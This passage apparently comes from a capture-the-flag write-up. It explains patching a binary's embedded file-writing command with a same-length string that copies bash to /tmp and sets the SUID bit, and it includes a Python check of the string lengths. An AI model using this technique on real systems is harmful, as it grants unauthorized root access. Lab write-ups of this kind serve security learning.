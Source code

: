 The command shown in the image is what outputs the content in the textbox to the file

It seems like this application renders HTML and we can find the source of the page in the binary as well

![HTML Source](Images/htmlsource.png)

Now that we've found how the binary writes to the file, we can edit the command to make a SUID copy of Bash for us

In order for this to work we have to make sure we don't add or remove bytes but just *change* them so the program doesn't segfault

```
C:\var\www\html> python3
Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> len("base64 -d > /var/www/html/badactors.txt")
39
>>> len("cp /bin/bash /tmp/a  && chmod +s /tmp/a")
39
>>> 
```
